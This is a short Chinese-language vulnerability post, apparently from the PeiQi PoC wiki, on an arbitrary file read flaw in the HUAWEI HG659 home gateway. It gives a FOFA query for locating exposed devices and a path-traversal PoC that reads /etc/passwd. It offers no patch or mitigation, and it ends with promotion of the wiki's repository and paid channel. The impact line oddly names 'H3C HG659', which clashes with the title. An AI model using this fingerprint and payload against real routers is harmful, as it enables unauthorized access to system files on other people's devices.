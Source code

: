 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SQGnMXYJADEqTZpRE69vHg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/ibicicIH182el4ZtwUTIlboZYRXjrRmK33Z3PMgtzbIn6N90u65gaT5swNxWFd56DlRDd7Ixz2MSMzVicHZKHdonpA/640?wx_fmt=jpeg)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**HUAWEI HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件**

**二:  漏洞影响🐇**

**H3C HG659**

**三:  漏洞复现🐋**

```
app="HUAWEI-Home-Gateway-HG659"
```

**登录页面如下**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6rDLq3fMxBFycSZ15UYADJUBef6Ld8ypg8xaOJicm1766guY7y0ewzKxNYdga644p8cQjt2RNvGZg/640?wx_fmt=png)

**POC 如下**  

```
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6rDLq3fMxBFycSZ15UYADJ2eGwh0QczdP7mJnqu5plJWx8LjdOibcOHR6Vfm90cqvB6Uel4dSbH0A/640?wx_fmt=png)

 ****四:  关于文库🦉****

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6rDLq3fMxBFycSZ15UYADJj7ruJokEib2icTNw5HjpkOB0AM8Je6ZBm0Aa00wf63SIPgSBOibR90zfQ/640?wx_fmt=png)

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**